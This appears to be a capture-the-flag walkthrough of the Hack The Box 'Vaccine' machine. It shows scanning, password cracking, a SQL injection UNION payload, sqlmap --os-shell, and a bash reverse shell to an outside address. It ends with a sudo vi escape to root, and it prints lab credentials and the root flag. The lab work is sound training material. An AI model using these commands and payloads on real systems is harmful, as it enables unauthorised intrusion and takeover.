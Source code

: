 ## ------------------->> Vaccine <<-------------------

// We will start with scanning using nmap

    $ nmap -sV -A -Pn 10.10.10.46 -p-
    Nmap scan report for 10.10.10.46
    Host is up (0.23s latency).
    Not shown: 65532 closed ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
    |   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
    |_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: MegaCorp Login
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
// we got 3 services running (FTP,SSH,HTTP). since we got credentials from last box(Oopsie), we can try to connect to FTP 

    ftp -p 10.10.10.46 
    ftpuser : mc@F1l3ZilL4
// we locate file called backup.zip in the ftp shared directory, lets grab him

    ftp> ls
    227 Entering Passive Mode (10,10,10,46,39,53).
    150 Here comes the directory listing.
    -rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
    226 Directory send OK.

    ftp> get backup.zip
// its seems that file have password, lets crack the password using john

    $ zip2john backup.zip > hash
    $ john hash --fork=4 -w=/wordlist.txt
    backup.zip password : 741852963

// we got file called index.php

	index.php -> login admin password_md5 : "2cb42f8734ea607eefed3b70af13bbd3"
// decode the hash using online md5 decoder https://www.md5online.org/
![Image 1](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_14_10_35.png)

	"2cb42f8734ea607eefed3b70af13bbd3" -> qwerty789

// login to http://10.10.10.46/ with credentials 'admin : qwerty789' get us to car catatlog with a search bar
when i search for 'a' i can see that url changes to http://10.10.10.46/dashboard.php?search=a when i try to insert quots i get an error:

	ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
// now we can see that the server is vulnerable for sql injection, from now there is few ways to achive a shell
### First way(Exploit sql injection)
// Insert:

	' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_14_40_43.png)

![Image 2](https://github.com/W0lfySec/HTB/blob/main/Images/Vaccine/Screenshot_2021-07-31_13_41_32.png)

sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' 
	--cookie="PHPSESSID=ikk1tjpq926a0dkboj4hu8r36o" --os-shell

sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=eig0j4h3v77v8prj79sug2hu50" --os-shell

// upgrade connection with nc listiner on port 1234
bash -c 'bash -i >& /dev/tcp/10.10.16.66/1234 0>&1'

// upgrade nc shell
SHELL=/bin/bash script -q /dev/null


postgres@vaccine:/var/www/html$ cat dashboard.php

try {
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}


-------------------1 way--------------
postgres@vaccine:$ python3 -c "import pty;pty.spawn('/bin/bash')"
P@s5w0rd!
------------------2 way ---------------
ssh open so....
ssh postgres@10.10.10.46
P@s5w0rd!


// add root privilleged configuration file
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
// add
:!/bin/bash


root@vaccine:~# cat root.txt
dd6e058e814260bc70e9bbdef2715849

